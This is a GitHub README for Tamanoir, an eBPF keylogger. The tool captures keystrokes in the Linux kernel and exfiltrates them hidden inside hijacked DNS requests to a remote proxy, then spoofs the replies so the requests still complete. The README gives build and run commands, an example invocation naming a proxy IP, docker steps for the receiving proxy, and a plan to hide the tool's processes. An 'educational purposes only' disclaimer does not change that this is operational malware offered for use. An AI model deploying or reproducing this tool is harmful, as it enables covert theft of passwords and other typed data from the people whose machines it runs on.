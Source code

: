 <div align="center">
  <h1> Tamanoir <br> A KeyLogger using eBPF 🐝 </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
  <p><small>
    <i>
      A large anteater of Central and South America, Myrmecophaga tridactyla
    </i>
  </small></p>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

1. Capture keystrokes and store them in a queue in the kernel.
2. Intercept DNS requests and inject the captured keystroes in the DNS payload then redirect the request designated remote server acting as a DNS proxy.
3. On the remote server, extract the keys from the DNS payload and send a valid DNS response.
4. Intercept the response and modify its source address so the initial request will complete successfully.

<br>

## 🚀 Setup

You need a Linux based OS.

### ⚒️ Build from source

To build from source, make sure you have:

- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

#### 1. Build ebpf program

```
cd tamanoir-ebpf
cargo build --release
```

#### 2. Build user space program

```
cargo build --release
```

This will produce an executable file at `target/release/tamanoir` that you can copy to a directory in your `$PATH`

### 📥 Binary release

You can download the pre-built binaries from the [release page](https://github.com/pythops/tamanoir/releases)

<br>

## 🪄 Usage

### Tamanoir

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip <DNS proxy IP> \
              --hijack-ip <locally configured DNS server IP> \
              --layout <keyboard layout> \
              --iface <network interface name>
```

for example:

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip 192.168.1.75 \
              --hijack-ip 8.8.8.8 \
              --layout 0 \
              --iface wlan0
```

Currenly, there are two supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

<br>

### DNS Proxy

On a remote host, make sure you have [docker](https://docs.docker.com/engine/install/) installed.

#### 1. Build proxy image

```
cd proxy
docker build -t proxy .
```

#### 2. Run proxy

> [!NOTE]
> Make sure port 53 is available

```
docker run --rm -it -p 53:53/udp -e PAYLOAD_LEN=8 proxy
```

<br>

## 🛠️TODO

- [ ] Automatic discovery of the configured local dns server
- [ ] Automatic discovery of the keyboard layout
- [ ] Rewrite the DNS proxy in Rust
- [ ] Make `Tamanoir` stealth (hide used ebpf maps and programs, process pid ...)

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
